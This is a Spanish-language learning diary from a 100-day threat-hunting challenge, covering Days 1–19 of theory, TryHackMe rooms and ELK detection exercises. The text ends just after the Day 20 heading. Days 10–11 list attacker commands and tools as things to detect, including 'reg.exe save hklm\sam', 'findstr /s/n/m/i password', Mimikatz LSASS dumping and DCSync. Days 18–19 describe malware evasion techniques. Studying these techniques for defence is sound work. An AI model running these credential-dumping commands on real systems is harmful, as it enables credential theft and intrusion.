 ```yaml
---
title: Diario de Registro  📝
layout: default
has_toc: false
nav_order: 1
parent: 100 days challenge 🗻
---
```


{: .work }
>En este apartado se registra el progreso día a día del reto

---
<details>
  <summary><strong>Day 1: Introducción al Threat Hunting.</strong></summary>
    <body>
        <p>El día de hoy he dedicado a la búsqueda de información general sobre el tema, que es el threat hunting y porque es importante a día de hoy en la ciberseguridad. También he realizado la sala de TryHackme de Threat Hunting: Introduction.</p>
        
        <p>Pequeño extracto:</p>
        <p>El Threat Hunting consiste en la búsqueda proactiva y sistemática de posibles amenazas o actividades maliciosas dentro de una red o sistema informático que aún no han sido detectadas.</p>

        <p>Si dependemos solamente de las herramientas de seguridad para detectar un ataque, como el incident response (IR). La acción frente a la amenaza se desencadena por una alerta del sistema. Esto conlleva un proceso de triaje y análisis, y cuando se determina de que se trata de una actividad maliciosa, debe ser respondida y tratada en consecuencia. Si el sistema no fuera capaz de detectar el ataque no habría ninguna respuesta a él. Por ello, es necesario el Threat Hunting ya que es una metodología proactiva, en búsqueda constante de nuevas amenazas. No hay una alerta real que dé inicio a la búsqueda, excepto el objetivo de fortalecer la postura de seguridad de la organización.</p>

        <p>Generalmente, las organizaciones comienzan a realizar el threat hunting una vez que ya tienen establecido un proceso de incident response , pero puede que algunos incidentes no se están detectando lo suficientemente temprano. El objetivo principal del threat hunting es lograr una detección temprana de estas amenazas.</p>

        <h2>REFERENCIAS</h2>
        <ul>
            <li><a href="https://www.crowdstrike.com/cybersecurity-101/threat-hunting/">CrowdStrike Threat Hunting</a></li>
            <li><a href="https://www.ibm.com/topics/threat-hunting">IBM Threat Hunting</a></li>
            <li><a href="https://www.threathunting.net/files/hunt-evil-practical-guide-threat-hunting.pdf">Guía práctica de caza de amenazas (PDF)</a></li>
            <li><a href="https://tryhackme.com/r/room/introductiontothreathunting">Introduction to Threat Hunting en TryHackMe</a></li>
        </ul>
    </body>
</details>

<details>
  <summary><strong>Day 2: Tipos y Metodologías</strong></summary>
  
  <p>Después de la búsqueda de información general he acabado de definir el indicie de este periodo de Introducción. Mi idea es cuando vaya terminando los temas subiré el contenido detallado a una página de GitHub. Así si a alguien le interesa el tema, puede mirar más en detalle mi recopilación.</p>

  <h3>Resumen del día de hoy:</h3>
  <p>Dentro del threat hunting podemos distinguir diferentes tipos y métodos:</p>

  <h4>1.2 Tipos</h4>
  <p>Existen diferentes enfoques que pueden tomar los equipos de ciberseguridad en cuanto al threat hunting. En este sentido, se pueden identificar distintos tipos de caza de amenazas, con sus propias metodologías y procesos específicos. Podemos distinguir entre tres tipos de threat hunting:</p>
  <ul>
    <li>Estructurado</li>
    <li>No estructurada</li>
    <li>Situacional</li>
  </ul>

  <h4>1.3 Metodologías</h4>
  <p>Dentro de cada tipo de caza de amenazas, las metodologías proporcionan un marco detallado para la ejecución práctica de la detección y respuesta a amenazas. Estas metodologías establecen los pasos específicos que los equipos de ciberseguridad deben seguir para identificar, investigar y neutralizar posibles riesgos. Las principales metodologías son:</p>
  <ul>
    <li>Investigación impulsada por hipótesis (Hypothesis hunting)</li>
    <li>Investigación basada en indicadores conocidos de compromiso o indicadores de ataque (IoA) (Intel-based hunting)</li>
    <li>Investigaciones situacionales o avanzadas de análisis y aprendizaje automático (Custom hunting)</li>
  </ul>

  <strong>REFERENCIAS:</strong>
  <ul>
    <li><a href="https://livebook.manning.com/book/cyber-threat-hunting/chapter-1/v-10/1">Manual general</a></li>
    <li><a href="https://cybertalents.com/blog/threat-hunting">Tipos/métodos</a></li>
  </ul>
</details>


<details>
  <summary><strong> Day 3: Importancia y Etapas</strong></summary>
  
  <p>Continuando con la Introducción al Threat Hunting, el día de hoy he definido la importancia de establecer el threat hunting como método defensivo, las posibles etapas a la hora de desarollar la caza de amenazas y he incluido algunos términos relativos al threat hunting en el glosario.</p>

  <h3>Extracto resumido de la información recopilada:</h3>

  <h4>1.4 Importancia del Threat Hunting</h4>
  <p>La principal diferencia de las medidas de seguridad tradicionales que se centran en la prevención y detección automatizada, el Threat Hunting implica una investigación activa por parte de un analista. Dicha investigación nos dará proactividad en nuestro sistema de búsqueda de amenazas.</p>
  <p>La importancia del threat hunting consiste en:</p>
  <ul>
    <li>Nos permite la identificación de amenazas avanzadas.</li>
    <li>Reducción del tiempo de respuesta.</li>
    <li>Mejora de la postura de seguridad informática.</li>
    <li>Adaptación a las nuevas amenazas.</li>
  </ul>
  <p>Actualmente, el Threat Hunting se ha convertido en una herramienta fundamental en el arsenal de cualquier equipo ciberseguridad. Su evolución ha sido impulsada por la necesidad de combatir amenazas cada vez más sofisticadas, aprovechando tecnologías avanzadas y adoptando un enfoque proactivo basado en el comportamiento.</p>

  <h4>1.5 Etapas</h4>
  <p>Podemos estructurar el threat hunting mediante una serie de fases durante su desarrollo. Estas etapas nos ayudan a establecer una estructura clara y efectiva para llevar a cabo la actividad de caza de amenazas.</p>
  <ul>
    <li>Generación de hipótesis</li>
    <li>Investigación</li>
    <li>Descubrimiento de patrones</li>
    <li>Análisis automatizado</li>
  </ul>

  <strong>REFERENCIAS</strong>
  <ul>
    <li><a href="https://www.cybereason.com/fundamentals/what-is-threat-hunting">¿Qué es la caza de amenazas? - Cybereason</a></li>
    <li><a href="https://es.darktrace.com/cyber-ai-glossary/threat-hunting">Glosario de ciberinteligencia: Caza de amenazas - Darktrace</a></li>
  </ul>
</details>

<details>
  <summary><strong>Day 4: Glosario, Publicación y Revisión</strong></summary>
  
  <p>El día de hoy doy por concluida la primera etapa de introducción al Threat Hunting. Hemos visto que es, que tipos hay, metodologías, etapas y la importancia que tiene hacer threat hunting para mejorar nuestra protección ante las amenazas. Me he dedicado a revisar la información que he podido detallar de los puntos mencionados y los he publicado en mi GitHub.</p>
  <p>Podéis ver el artículo publicado de introducción <a href="https://nottaroff.github.io/workspace/docs/100%20days/Introduccion/">aquí</a>.</p>
  <p>También he añadido algunos términos en el glosario, sobre todo los mencionados en la introducción. Este apartado lo iré trabajando a lo largo del reto.</p>
  <p>He creado unos gráficos para representar un poco mejor los conceptos vistos en la introducción.</p>

  <p><strong>Glosario añadido:</strong> <a href="https://nottaroff.github.io/workspace/docs/100%20days/Introduccion/#15-glosario">aquí</a></p>
  <ul>
    <li>IoA (Indicador de Ataque)</li>
    <li>TTP (Tácticas, Técnicas y Procedimientos)</li>
    <li>MITRE</li>
    <li>IoC (Indicador de Compromiso)</li>
    <li>STIX (Structured Threat Information eXpression)</li>
    <li>TAXII (Trusted Automated eXchange of Indicator Information)</li>
    <li>SIEM (Security Information and Event Management)</li>
    <li>EDR (Endpoint Detection and Response)</li>
    <li>CERT (Computer Emergency Response Team)</li>
  </ul>

  <strong>REFERENCIAS:</strong>
  <ul>
    <li><a href="https://nottaroff.github.io/workspace/docs/100%20days/">100 Days - Documentación</a></li>
  </ul>
</details>

<details>
  <summary><strong>Day 5: Recopilación y análisis de información sobre amenazas</strong></summary>
  
  <p>Continuando con la fase del pre-hunting. El día de hoy he estado documentándome sobre la recopilación y análisis en el threat hunting. Sobre qué tener en cuenta a nivel teórico.</p>

  <h3>Recopilación y análisis de información sobre amenazas</h3>

  <h4>2.1 Fuentes de inteligencia de amenazas.</h4>
  <p>Las fuentes de inteligencia de amenazas son cruciales para una caza efectiva de amenazas, proporcionando información esencial para detectar y contrarrestar los riesgos de seguridad de manera eficaz.</p>
  <p>Algunas fuentes comunes:</p>
  <ul>
    <li>Informes de seguridad.</li>
    <li>Comunidades de seguridad y foros en línea.</li>
    <li>Información compartida por organizaciones.</li>
    <li>Resultados de investigaciones forenses de incidentes previos.</li>
    <li>Datos internos generados por herramientas de monitoreo de seguridad y análisis de registros.</li>
  </ul>

  <h4>2.2 Técnicas para recopilar información.</h4>
  <p>Aunque el enfoque principal del Threat Hunting es el ser humano, contar con acceso a tecnologías relevantes y confiables, así como a herramientas escalables y flexibles:</p>
  <ul>
    <li>Actividades de endpoints en servidores y clientes.</li>
    <li>Datastores.</li>
    <li>Análisis.</li>
  </ul>

  <h4>2.3 Métodos analíticos.</h4>
  <p>Los enfoques analíticos son necesarios para extraer información valiosa de los datos recopilados.</p>
  <p>Algunas técnicas comunes son:</p>
  <ul>
    <li>Evaluación de comportamiento.</li>
    <li>Correlación de datos.</li>
    <li>Identificación de firmas.</li>
    <li>Análisis de riesgo.</li>
    <li>Seguimiento de tendencias.</li>
  </ul>

  <h4>2.4 Gestión de datos. (WIP)</h4>
  <p>He incluido este apartado de gestión de datos desde una perspectiva del threat hunter para entender cómo se documentan, se estandarizan, se modelan y la calidad de los datos. Es muy importante comprender bien estos pasos al desarrollar una analítica.</p>

  <strong>REFERENCIAS:</strong>
  <ul>
    <li><a href="https://www.ibm.com/es-es/topics/threat-intelligence">IBM Threat Intelligence</a></li>
    <li><a href="https://openaccess.uoc.edu/bitstream/10609/107546/6/aveloymTFM1219memoria.pdf">Memoria: Threat hunting en entornos Windows</a></li>
    <li><a href="https://github.com/OTRF/OSSEM">OSSEM en GitHub</a></li>
  </ul>
</details>


<details>
  <summary><strong>Day 6: Gestión de Datos</strong></summary>
  
  <p>Continuando con el punto 2. Recopilación y análisis de información sobre amenazas.</p>
  <p>He estado investigando cómo se gestionan los datos y por qué es importante desde un punto de vista analítico. La teoría en este tema es lógica y comprensible, pero al observar ejemplos dentro de un sistema, no era tan fácil de entenderlo desde mi perspectiva. Por lo tanto, encontré algunas salas de TryHackMe que me ayudaron a comprender mejor el funcionamiento interno de la gestión de datos.</p>
  <p>El día de hoy he realizado la room: <a href="https://tryhackme.com/r/room/windowseventlogs">https://tryhackme.com/r/room/windowseventlogs</a> que me ha proporcionado diferentes herramientas en Windows para poder buscar, localizar y extraer información de los logs del sistema.</p>

  <h4>Extracto de la parte teórica:</h4>

  <p><strong>Documentación de Datos</strong></p>
  <p>Para realizar el análisis y la interpretación de los datos, es fundamental comprender qué datos se están recopilando y cómo se están estructurando.</p>

  <p><strong>Estandarización de Datos</strong></p>
  <p>La estandarización de datos nos ofrece una coherencia y eficacia en el análisis de la información recopilada de diversas fuentes. Se basa en el empleo de un Modelo de Información Común (CIM), que proporciona una estructura para normalizar conjuntos de datos mediante un esquema.</p>

  <p><strong>Modelación de Datos (Data Modeling)</strong></p>
  <p>El modelo de datos determina la estructura de los datos y las relaciones entre ellos. Identificar estas relaciones es importante para documentar eventos específicos que podrían vincularse a cadenas de eventos relacionadas con el comportamiento de los adversarios.</p>

  <p><strong>Calidad de Datos (Data Quality)</strong></p>
  <p>La calidad de los datos se refiere a su valor para los usos previstos en las operaciones, toma de decisiones y planificación.</p>

  <strong>REFERENCIAS:</strong>
  <ul>
    <li><a href="https://www.ibm.com/docs/es/flashsystem-a9000/12.2.1?topic=STJKMM_12.2.1/xiv_apicimconcepts.htm">Conceptos de CIM para FlashSystem</a></li>
    <li><a href="https://opennetworking.org/wp-content/uploads/2014/10/TR-513_CIM_Overview_1.2.pdf">Visión general de CIM por Open Networking Foundation</a></li>
    <li><a href="https://threathunterplaybook.com/pre-hunt/data_management.html">Data Management en Threat Hunter Playbook</a></li>
  </ul>
</details>

<details>
  <summary><strong>Day 7: Técnicas y herramientas del Threat Hunting</strong></summary>
  
  <p>En el día de hoy, he terminado la sección anterior de Recopilación y análisis, podéis consultar el artículo completo en mi blog: <a href="https://nottaroff.github.io/workspace/docs/100%20days/2.%20Recopilacion/">aquí</a>.</p>
  <p>El siguiente apartado se trata de Técnicas y herramientas. He definido algunas técnicas comunes y al profundizar en las herramientas, he detallado el modelo de madurez de caza. Es un gráfico que le sirve a los entornos organizacionales para decir en qué punto del threat hunting están. Creo que es interesante conocerlo para saber qué tipo de herramientas habrá que utilizar. Artículo completo: <a href="https://nottaroff.github.io/workspace/docs/100%20days/3.%20Tecnicas%20y%20Herramientas/">aquí</a>.</p>
  <p>Con esta sección doy por concluidos los primeros 7 días del challenge, que han sido más teórico introductorios. Durante los próximos días intentaré sumergirme en temas más prácticos del threat hunting.</p>

  <strong>REFERENCIAS:</strong>
  <ul>
    <li><a href="https://socprime.com/blog/threat-hunting-maturity-model-explained-with-examples/">Threat Hunting Maturity Model Explained with Examples</a></li>
    <li><a href="https://heimdalsecurity.com/blog/threat-hunting-techniques/">Threat Hunting Techniques</a></li>
  </ul>
</details>

<details>
  <summary><strong>Day 8: Elastic Introduction</strong></summary>
  
  <p>Hoy he realizado varios ejercicios prácticos de iniciación al threat hunting. Para ello, completé varias rooms en TryHackMe.</p>

  <p>En primer lugar, me familiaricé con Elastic Stack en la siguiente room: <a href="https://tryhackme.com/r/room/investigatingwithelk101">Investigating with ELK 101</a>. Es una plataforma de código abierto que combina varios componentes para la búsqueda, análisis y visualización de datos. Aprendí a realizar búsquedas, aplicar filtros, guardar búsquedas, crear visualizaciones e investigar registros de VPN para identificar anomalías. También aprendí a utilizar tableros con búsquedas guardadas y visualizaciones.</p>

  <p>La segunda parte de esta experiencia fue en la room <a href="https://tryhackme.com/r/room/advancedelkqueries">Advanced ELK Queries</a>. Aquí exploré diferentes tipos de consultas avanzadas y las diversas sintaxis de consulta, incluyendo KQL y Lucene.</p>

  <p>Por último, después de la introducción a Elastic Stack, comencé la room práctica sobre aplicación al threat hunting: <a href="https://tryhackme.com/r/room/threathuntingfoothold">Threat Hunting Foothold</a>. Empecé por el primer apartado sobre Acceso Inicial, donde investigué las técnicas que los adversarios utilizan para ingresar a una organización.</p>

  <p>El día de hoy he realizado varios ejercicios prácticos de iniciación al threat hunting. Para ello, he realizado varias rooms de TryHackMe.</p>
</details>

<details>
  <summary><strong>Day 9: Threat Hunting Foothold</strong></summary>
  
  <p>El día de hoy realicé la room de: <a href="https://tryhackme.com/r/room/threathuntingfoothold">Threat Hunting Foothold</a>.</p>
  <p>Es una buena guía práctica para aprender cómo detectar actividad maliciosa con Elastic. En ella se tratan varios ejemplos de diferentes actividades maliciosas:</p>

  <h4>Initial Access</h4>
  <p>Detección de tácticas que los adversarios usan para ingresar a sistemas, como phishing, explotación de servidores, fuerza bruta...</p>

  <h4>Execution</h4>
  <p>Se detallan los métodos para ejecutar código malicioso: herramientas de línea de comandos, herramientas del sistemas integradas (certutil.exe o bitsadmin.exe), scripting.</p>

  <h4>Defense Evasion</h4>
  <p>Detección de tácticas para evitar la detección por parte de sistemas de seguridad, como desactivación de software de seguridad, eliminación de registros, bypasses.</p>

  <h4>Persistence</h4>
  <p>Detección de técnicas para mantener el acceso a redes comprometidas a largo plazo, como modificación de claves de registro, scripts de auto-start, creación de usuarios.</p>

  <h4>Command and Control</h4>
  <p>Detección de métodos de comunicación de los adversarios con sistemas comprometidos, Comand and control techniques, servicios basados en la nube, servidores https cifrados y protocolos de red.</p>
</details>

<details>
  <summary><strong>Day 10: Threat Hunting Pivoting</strong></summary>
  
  <p>Siguiendo la línea de aprendizaje sobre el hunting, hoy he profundizado en la detección de dos técnicas más a través de Elastic.</p>

  <h4>Discovery</h4>
  <p>Referente a las acciones que un atacante puede tomar para comprender mejor los sistemas y redes que han infiltrado. Detección de actividades como:</p>
  <ul>
    <li>Reconocimiento de Usuario: whoami, net,user, net localgroup or qwinsta (Enumeración de cuentas) / dir o ls (enumeración de directorios).</li>
    <li>Reconocimiento de Host: hostname, wmic, ipconfig o systeminfo (Host) / net start o sc.exe query (Servicios).</li>
    <li>Escaneo Interno: tablas arp, ping, escaneo de puertos (nmap o Powershell).</li>
    <li>Reconocimiento Interno del Dominio: net * /domain o nltest /dclist (Listado de domain users).</li>
  </ul>

  <h4>Escalada de Privilegios</h4>
  <p>Técnicas que permiten a un atacante obtener privilegios o permisos más elevados en un sistema o red.</p>
  <ul>
    <li>Explotación de vulnerabilidades: uso de exploits.</li>
    <li>Uso de cuentas válidas: Usar runas con credenciales recién descubiertas.</li>
    <li>Abuso de control de acceso: Abuso de ACL, otorgando permisos a otras cuentas.</li>
    <li>Abuso de configuración incorrecta del hosts: Configuraciones inseguras; servicios modificables y reiniciables o binarios sobrescribibles.</li>
  </ul>
</details>

<details>
  <summary><strong>Day 11: Threat Hunting Pivoting II</strong></summary>
  
  <p>Continuando con la tarea de entender diferentes tácticas maliciosas que debemos tener en cuenta/encontrar como Threat Hunters, el día de hoy he profundizado en las dos últimas:</p>

  <h4>Credential Access</h4>
  <p>Se basa en los métodos de los atacantes para robar o descubrir nombres de usuario y contraseñas (o hashes) de cuentas válidas. Es un punto crítico del sistema ya que permite escalar privilegios o ganar acceso a otros sistemas o recursos de red. Actividades como:</p>
  <ul>
    <li>Credenciales en disco o memoria: Volcar LSASS mediante Mimikatz o creación de archivos de volcado de LSASS, listar información de cuentas en el Registro de Windows (reg.exe save hklm\sam), o extraer credenciales DPAPI con SharpDPAPI.</li>
    <li>Credenciales en archivos: Recopilar credenciales en archivos usando findstr /s/n/m/i password, encontrar archivos de administrador de credenciales (Keepass o claves SSH), y volcar credenciales de navegadores mediante SharpChrome o Firefox Decrypt.</li>
    <li>Credenciales de Dominio: Volcar credenciales de dominio mediante DCSync o acceder a credenciales de Administrador Local de LAPS.</li>
    <li>Credential spraying: Intentos fallidos de inicio de sesión de diversas cuentas en una única estación de trabajo.</li>
  </ul>

  <h4>Movimiento Lateral</h4>
  <p>Técnicas de un atacante para navegar por una red, aprovechando las credenciales y sesiones obtenidas durante fases de ataque previas.</p>
  <ul>
    <li>Explotación de servicios internos: Atacar servidores internos con aplicaciones/servicios vulnerables.</li>
    <li>Uso de herramientas administrativas legítimas: Emplear herramientas como PsExec, PowerShell remoto, etc.</li>
    <li>Autenticación con credenciales válidas: Utilizar contraseñas en texto plano o técnicas como Pass-the-Hash.</li>
    <li>Acceso a información sensible: Ingresar a servidores de archivos, bases de datos y almacenamiento en la nube.</li>
  </ul>
</details>

<details>
  <summary><strong>Day 12: Threat Hunting in Network</strong></summary>
  
  <p>Después de ver algunos ejemplos genéricos de detección de amenazas, voy a ver cómo detectar las diferentes amenazas según el entorno en el que estén. El día de hoy he estado investigando acerca de las amenazas en el entorno de red.</p>

  <h4>Caza de amenazas en Redes</h4>
  <p>Implica el uso de herramientas y métodos para monitorear y analizar activamente:</p>
  <ul>
    <li>Tráfico de red</li>
    <li>Comportamientos del usuario</li>
    <li>Actividades del sistema</li>
  </ul>

  <h4>Técnicas de análisis de tráfico de red</h4>
  <p>Examinar el flujo de datos en red para detectar patrones, anomalías y amenazas:</p>
  <ul>
    <li>Inspección de Paquetes</li>
    <li>Análisis de Tráfico</li>
    <li>Análisis de Protocolos</li>
    <li>Análisis de Comportamiento</li>
  </ul>

  <p>Para la detección y mitigación de posibles amenazas y vulnerabilidades dentro de una infraestructura de red.</p>

  <h4>Recursos</h4>
  <ul>
    <li><a href="https://shorturl.at/GHMSW">TH Workshop</a></li>
    <li><a href="https://shorturl.at/ovVY0">Threat Intelligence and Data-Driven Threat Hunting</a></li>
  </ul>
</details>

<details>
  <summary><strong>Day 13: Network Threat Hunting</strong></summary>
  
  <p>El día de hoy he seguido profundizando cuáles son los puntos de referencia durante la caza de amenazas en redes y en detalle la caza de anomalías del DNS.</p>

  <h4>Puntos de referencia durante la caza de amenazas en redes</h4>
  <p>Debemos entender primero qué es normal en el entorno de red para luego poder detectar anomalías. Para ello debemos tener en cuenta:</p>
  <ul>
    <li>Los puertos, junto con la topología de red: El malware suele utilizar protocolos comunes para comunicarse y es esencial comprender la pila de red y los protocolos comunes.</li>
    <li>Todos los dispositivos en la red deben ser analizados, ya que los atacantes suelen moverse lateralmente.</li>
    <li>Un diagrama completo de la red.</li>
  </ul>

  <h4>Anomalías del DNS</h4>
  <p>Las solicitudes DNS a dominios inusuales o sospechosos pueden ser generadas por malware que establece canales de control y comando. El monitoreo y la inclusión en listas negras de:</p>
  <ul>
    <li>Volumen anormal: Un volumen inusual de solicitudes DNS desde una determinada computadora o para un dominio determinado puede indicar un ataque.</li>
    <li>Hits en listas negras: Las solicitudes a dominios maliciosos conocidos indican que un sistema ha sido infectado con malware.</li>
    <li>Detectar tráfico DNS sospechoso:</li>
    <ul>
      <li>Recopilar paquetes de tráfico DNS</li>
      <li>Identificar y eliminar el tráfico conocido como bueno</li>
      <li>Analizar lo que queda.</li>
    </ul>
    <li>Conexiones DNS dinámicas: Las conexiones a dominios alojados en proveedores de DNS dinámicos pueden indicar comunicación C2.</li>
    <li>Tráfico denegado de salida: El malware dentro de una red puede necesitar comunicarse con un servidor C2. Este tráfico puede ser bloqueado por firewalls u otros dispositivos de seguridad de red.</li>
    <li>Anomalías en solicitudes y respuestas HTTP:</li>
    <ul>
      <li>Request: Grandes números de solicitudes repetidas para los mismos recursos pueden indicar.</li>
      <li>Response: Las respuestas inusualmente grandes pueden indicar una inyección SQL exitosa.</li>
    </ul>
    <li>Anomalías geográficas: Intentos de autenticación desde ubicaciones inusuales.</li>
  </ul>
</details>

<details>
  <summary><strong>Day 14: Threats in Networks</strong></summary>
  
  <p>El día de hoy he estado examinando diversas amenazas que pueden afectar nuestro entorno de red. Entre ellas, la detección de ataques DDoS y la identificación de dominios sospechosos.</p>

  <h4>Ataques de Denegación de Servicio Distribuido (DDoS)</h4>
  <p>Un ataque DDoS ocurre cuando múltiples máquinas atacantes intentan sobrecargar a las máquinas víctimas.</p>
  <p>Algunos indicios de un ataque DDoS:</p>
  <ul>
    <li>Indisponibilidad de sitios web.</li>
    <li>Rendimiento lento de la red.</li>
    <li>Sistemas internos operando al máximo de su capacidad.</li>
    <li>Sobrecarga de sistemas de seguridad de red (SIEM, IPS-IDS).</li>
    <li>Disponibilidad inesperada del servidor.</li>
  </ul>
  <p>Direcciones IP conectadas a muchos puertos diferentes pueden indicar un ataque de DoS.</p>

  <h4>Threat Hunting de Dominios Sospechosos</h4>
  <p>Motivos por los cuales un dominio puede ser sospechoso:</p>
  <ul>
    <li>Dominios aleatorios generados por un DGA.</li>
    <li>Direcciones IP ocultas.</li>
    <li>Extensiones de dominio inusuales.</li>
    <li>Dominios inexistentes.</li>
    <li>Dominios conocidos como maliciosos.</li>
  </ul>
  <p>La información de un dominio se puede encontrar en registros DNS, correos electrónicos y registros web. Es importante para detectar riesgos y protegerse contra actividades maliciosas.</p>

  <h4>URLs</h4>
  <p>Las URL son indicadores comunes de compromiso y se utilizan en ataques de phishing, spam y malware.</p>
  <p>Ataques basados en URL:</p>
  <ul>
    <li>Redirección.</li>
    <li>Typosquatting.</li>
    <li>Codificación de escape.</li>
  </ul>

  <h4>Respuestas HTML Sospechosas</h4>
  <p>El tamaño de la respuesta HTML es clave. En los ataques de inyección SQL, las respuestas suelen ser grandes debido a datos exfiltrados.</p>
  <p>Los registros de servidores web son útiles para identificar ataques:</p>
  <ul>
    <li>Respuestas HTML grandes pueden indicar intentos de inyección SQL y exfiltración de datos.</li>
    <li>Errores 500 Internal Server y errores 501 Header Value pueden indicar escaneos en busca de vulnerabilidades.</li>
  </ul>
  <p>Es crucial estar atento a actividades inusuales que puedan indicar una brecha de seguridad.</p>
</details>

<details>
  <summary><strong>Day 15: Threats in Network</strong></summary>
  
  <p>Hoy he estado investigando sobre la caza de tráfico irregular, mirando ejemplos de detección de web shells y la exfiltración de datos. Además, he estado configurando un entorno de laboratorio con ELK stack para poner en práctica el hunting en la red con ejemplos.</p>

  <h4>Hunting de tráfico irregular</h4>
  <p>Las irregularidades en el tráfico de red son indicadores útiles para los cazadores de amenazas. Los autores de malware utilizan diversas técnicas para ocultar ataques de comando y control, como protocolos mal utilizados y desajustes entre puertos y aplicaciones.</p>
  <p>El intento de ejecución de web shells es un vector de ataque inicial común. Es crucial detectarlos tempranamente.</p>
  <p>Algunas detecciones clave incluyen:</p>
  <ul>
    <li>Protocolos mal utilizados: Se emplean protocolos inusuales en un puerto concreto.</li>
    <li>Desajustes entre puertos y aplicaciones: Los autores de malware pueden utilizar puertos comunes o personalizados para hacer que el tráfico malicioso parezca legítimo. Observar registro de datos para encontrar anomalías y patrones sospechosos es crucial.</li>
    <li>Web Shells: Son una forma ilícita de obtener acceso a una terminal de una computadora a través de una página web dinámica en el lado del servidor.</li>
  </ul>
  <p>Herramientas de detección: Parte de suites de caza de amenazas o herramientas independientes como Webshell Scan, Scalp y Neopi.</p>

  <h4>Exfiltración de datos</h4>
  <p>Detectarla es complejo, especialmente sin una buena línea base del tráfico saliente normal.</p>
  <p>Las soluciones de Protección de Pérdida de Datos (DLP) pueden pasar por alto eventos de exfiltración debido a diversas razones:</p>
  <ul>
    <li>Los exploits de exfiltración suelen ser pasos intermedios en un ataque y no siempre afectan a los datos protegidos por DLP.</li>
    <li>Las redes de explotación distribuida son difíciles de detectar para las soluciones de DLP.</li>
  </ul>
  <p>Para detectar la exfiltración de datos, es crucial monitorear patrones de tráfico y usar técnicas de análisis avanzadas.</p>
</details>

<details>
  <summary><strong>Day 16: Practice examples of Network Hunting</strong></summary>
  
  <p>El día de hoy he terminado de añadir la información recopilada sobre el hunting en redes. Podéis echarle un ojo en mi <a href="https://nottaroff.github.io/workspace/docs/100%20days/4.%20Hunting%20en%20entornos%20de%20red/">blog</a>.</p>

  <p>Como parte práctica, he realizado un ejercicio de detección de un ataque C2 (command and control) al DNS. He utilizado el entorno de Elastic online, cargando los datos. Podéis ver los detalles en este <a href="https://nottaroff.github.io/workspace/docs/100%20days/Ejemplos%20prácticos%20Hunting%20en%20Red/">post</a>.</p>

  <p>Estos días seguiré realizando varios ejercicios prácticos de detección de ataques en la red y modificando el blog.</p>
</details>

<details>
  <summary><strong>⁠⁠⁠Day 17: Practice examples of Network Hunting II</strong></summary>
  <p>El día de hoy he realizado otros dos ejemplos de hunting en entornos de red. Concretamente en detectar posibles ataques a una aplicación web mediante la ejecución remota de código y otra práctica sobre actividades de phishing detectando enlaces maliciosos y archivos adjuntos abiertos o descargados desde diferentes estaciones de trabajo.</p>
  
  <p>Podéis echarle un ojo al reporte aquí:</p>
  
  <p>Ejecución remota de código en Web: <a href="https://nottaroff.github.io/workspace/docs/100%20days/Ejemplos%20prácticos%20Hunting%20en%20Red/#ejecución-remota-de-código-en-web-%EF%B8%8F">Informe</a></p>
  
  <p>Enlaces y Archivos de Phishing: <a href="https://nottaroff.github.io/workspace/docs/100%20days/Ejemplos%20prácticos%20Hunting%20en%20Red/#enlaces-y-archivos-de-phishing-">Informe</a></p>
</details>

<details>
  <summary><strong>⁠Day 18: Malware Hiding Techniques</strong></summary>
  <p>El día de hoy he estado investigando sobre las técnicas de evasión que utiliza el malware para pasar desapercibido en los sistemas de detección, concretamente los que dependen de firmas o patrones predefinidos.</p>
  
  <p><strong>Extracto:</strong></p>
  <ul>
    <li><strong>Malware Polimórfico:</strong> Es un tipo de software malicioso que cambia su código o apariencia con cada infección, dificultando su detección y bloqueo por parte de los antivirus tradicionales basados en firmas.</li>
    <li><strong>Malware Metamórfico:</strong> Modifica tanto su código, estructura y comportamiento en cada infección.</li>
    <li><strong>Cifrado de archivos:</strong> Consiste en codificar el código malicioso o componentes para ocultar su verdadero propósito y evitar ser detectado por el software de seguridad.</li>
    <li><strong>Empaquetadores:</strong> Comprimen y cifran el código del malware, creando un nuevo ejecutable que requiere una rutina de desempaquetado específica para ser ejecutada.</li>
    <li><strong>Cifradores:</strong> Se centran en cifrar el código del malware y generar una rutina de descifrado que puede reconstituir la carga útil maliciosa original en tiempo de ejecución.</li>
    <li><strong>Ofuscación de Código:</strong> Manipulación intencional de la estructura, lógica y presentación del código para hacerlo más complejo y ocultar los patrones reconocibles del malware.</li>
  </ul>
  
  <p><strong>REFERENCIAS:</strong></p>
  <ul>
    <li><a href="https://blog.barracuda.com/2023/11/09/malware-101-signature-evasion-techniques">Malware 101: Signature Evasion Techniques</a></li>
    <li><a href="https://www.cyfirma.com/research/malware-detection-evasion-techniques/">Malware Detection Evasion Techniques</a></li>
  </ul>
</details>

<details>
  <summary><strong>Day 19: Behaviour-based Evasion Techniques</strong></summary>
  <p>El día de hoy he visto las diferentes técnicas de evasión basadas en el comportamiento del sistema que utiliza el malware para alterar sus acciones y características y evadir su detección, con algunos ejemplos reales.</p>
  
  <p><strong>Extracto:</strong></p>
  <ul>
    <li><strong>Detección de sandbox:</strong> El malware puede detectar ciertos comportamientos asociados con entornos de análisis y alterar su comportamiento para evadir el análisis.</li>
    <li><strong>Trickbot:</strong> Troyano bancario que se propaga principalmente a través de correos electrónicos de phishing y es utilizado para robar información financiera y credenciales de inicio de sesión. <a href="https://attack.mitre.org/software/S0266/">Referencia</a></li>
    <li><strong>Comprobación del entorno:</strong> Se evalúa el contexto en el que se está ejecutando el malware y puede alterar su comportamiento para evadir la detección.</li>
    <li><strong>Emotet:</strong> Emplea técnicas de comprobación del entorno para detectar análisis de seguridad y puede cambiar su comportamiento en consecuencia. <a href="https://attack.mitre.org/software/S0367/">Referencia</a></li>
    <li><strong>Vaciamiento de Procesos:</strong> El malware emplaza su propio código malicioso dentro de procesos legítimos del sistema para ejecutar acciones maliciosas en segundo plano.</li>
    <li><strong>Poweliks:</strong> Este malware busca un proceso legítimo en el sistema y luego inyecta su código dentro del proceso, reemplazando su funcionalidad legítima con la suya propia. <a href="https://attack.mitre.org/techniques/T1218/011/">Referencia</a></li>
  </ul>
</details>

<details>
  <summary><strong>Day 20: Inyección de malware en procesos y Malware sin archivos</strong></summary>
